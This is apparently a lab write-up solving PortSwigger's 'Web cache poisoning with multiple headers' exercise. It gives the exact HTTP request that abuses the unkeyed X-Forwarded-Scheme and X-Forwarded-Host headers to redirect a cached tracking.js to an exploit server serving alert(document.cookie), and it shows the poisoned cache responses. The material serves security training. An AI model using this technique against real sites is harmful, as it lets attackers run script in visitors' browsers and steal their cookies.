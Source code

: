 # [Lab: Web cache poisoning with multiple headers](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-multiple-headers)

## Lab

This lab contains a web cache poisoning vulnerability that is only exploitable when you use multiple headers to craft a malicious request. A user visits the home page roughly once a minute. To solve this lab, poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser.

## Analysis

unkeyed-headers: `X-Forwarded-Scheme` and `X-Forwarded-Host`

## Solutions

craft response at exploit-server:

- file: `/resources/js/tracking.js`
- body: `alert(document.cookie)`

cache poisoning:

```http
GET /resources/js/tracking.js HTTP/1.1
Host: id.web-security-academy.net
X-Forwarded-Scheme: http
X-Forwarded-Host: exploit-id.exploit-server.net
Connection: close
```

- response:

  ```http
  HTTP/1.1 302 Found
  Location: https://exploit-id.exploit-server.net/resources/js/tracking.js
  Cache-Control: max-age=30
  Age: 0
  X-Cache: miss
  Connection: close
  Content-Length: 0
  ```

What will happen on the victim's side:

```http
GET / HTTP/1.1
Host: 0a4f00840335e2bec05e726800c20001.web-security-academy.net
```

- response:

  ```http
  HTTP/1.1 200 OK

  <script type="text/javascript" src="/resources/js/tracking.js">
  ```

```http
GET /resources/js/tracking.js HTTP/1.1
Host: 0a4f00840335e2bec05e726800c20001.web-security-academy.net
```

- response (cache hit):

  ```http
  HTTP/1.1 302 Found
  Location: https://exploit-0ace00a1034fe28cc0e4716701530056.exploit-server.net/resources/js/tracking.js
  Cache-Control: max-age=30
  Age: 22
  X-Cache: hit
  Connection: close
  Content-Length: 0
  ```

=> boom, solved.
